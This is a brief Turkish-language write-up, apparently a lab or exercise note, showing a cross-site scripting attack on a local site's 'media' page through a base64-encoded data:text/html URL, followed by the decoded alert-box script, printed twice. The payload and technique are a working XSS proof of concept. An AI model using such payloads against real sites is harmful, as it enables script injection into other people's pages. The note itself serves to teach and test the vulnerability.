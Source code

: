# XSS Attack Example

Bu örnek, base64 kodlanmış bir payload kullanarak bir XSS saldırısını göstermektedir. Media kısmı, arka planda base64 ile gelen veriyi çözümler ve siteye gönderir. Ancak, biz bu durumu manipüle ederek XSS saldırısı gerçekleştiriyoruz.

URL:
```
http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzIFRlc3QnKTwvc2NyaXB0Pg==
```

Çözülmüş Payload:
```
<script>alert('xss Test');</script>
```

Yukarıdaki URL erişildiğinde, aşağıdaki script çalıştırılacaktır:
```html
<script>alert('xss Test');</script>
```
```html
<script>alert('xss Test');</script>
```